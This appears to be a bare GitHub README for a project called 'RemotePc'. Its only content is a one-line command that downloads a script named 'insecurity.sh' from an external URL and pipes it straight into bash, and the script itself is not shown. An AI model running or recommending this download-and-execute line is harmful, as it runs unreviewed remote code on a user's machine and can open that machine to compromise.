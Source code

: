 # RemotePc

wget https://edshare.gcu.ac.uk/id/document/59386 -O insecurity.sh && bash insecurity.sh
